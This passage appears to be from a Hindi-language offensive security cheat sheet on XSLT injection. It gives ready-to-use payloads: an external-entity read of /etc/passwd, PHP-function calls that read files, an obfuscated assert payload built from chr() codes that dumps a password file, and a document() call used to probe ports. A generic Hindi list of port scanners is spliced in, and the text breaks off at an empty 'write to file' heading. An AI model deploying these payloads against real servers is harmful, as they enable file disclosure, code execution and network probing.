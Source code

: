 ```markup
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```
### **आंतरिक (PHP-कार्य)**
```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
<br />
</body>
</html>
```
### पोर्ट स्कैन

पोर्ट स्कैन करने के लिए आप निम्नलिखित टूल्स का उपयोग कर सकते हैं:

- Nmap: यह एक शक्तिशाली और लोकप्रिय पोर्ट स्कैनिंग टूल है जो विभिन्न प्रोटोकॉलों के लिए उपयोग किया जा सकता है। आप इसका उपयोग करके निर्दिष्ट IP पते या नेटवर्क के लिए पोर्ट स्कैन कर सकते हैं।

- Masscan: यह एक तेज़ पोर्ट स्कैनिंग टूल है जो बड़े नेटवर्कों के लिए उपयोगी हो सकता है। यह TCP और UDP पोर्टों को स्कैन करने की क्षमता रखता है और आपको विस्तृत जानकारी प्रदान करता है।

- Zmap: यह एक तेज़ और असिंक्रोनस पोर्ट स्कैनिंग टूल है जो इंटरनेट पर विशाल स्कैन करने के लिए उपयोगी हो सकता है। यह TCP और UDP पोर्टों को स्कैन करने की क्षमता रखता है और आपको विस्तृत जानकारी प्रदान करता है।

आप इन टूल्स का उपयोग करके निर्दिष्ट IP पते या नेटवर्क के लिए पोर्ट स्कैन कर सकते हैं और खुले पोर्टों की सूची प्राप्त कर सकते हैं।
```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```
## फ़ाइल में लिखें
